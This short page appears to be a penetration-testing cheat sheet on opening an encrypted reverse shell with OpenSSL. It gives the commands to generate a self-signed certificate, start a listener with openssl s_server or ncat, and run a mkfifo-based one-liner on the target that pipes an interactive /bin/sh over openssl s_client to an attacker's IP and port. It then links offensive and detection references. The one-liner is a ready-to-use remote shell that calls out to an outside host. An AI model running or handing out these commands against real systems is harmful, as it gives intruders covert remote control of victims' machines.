 # OpenSSL

## 06 - Generate a TLS certificate to encrypt the network traffic

- Listener

`user@pentestos:~$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`

`user@pentestos:~$ openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>`

`user@pentestos:~$ ncat --ssl -vv -l -p <PORT>`

- Target

`$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/s; rm /tmp/s`

## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

- [Rio Asmara Suryadi: OpenSSL for Reverse Shell](https://rioasmara.com/2020/06/22/openssl-for-reverse-shell/)

- [Day 43 Reverse Shell with OpenSSL](https://int0x33.medium.com/day-43-reverse-shell-with-openssl-1ee2574aa998)

- [Detecting and Investigating OpenSSL Backdoors on Linux](https://www.sandflysecurity.com/blog/detecting-and-investigating-openssl-backdoors-on-linux/)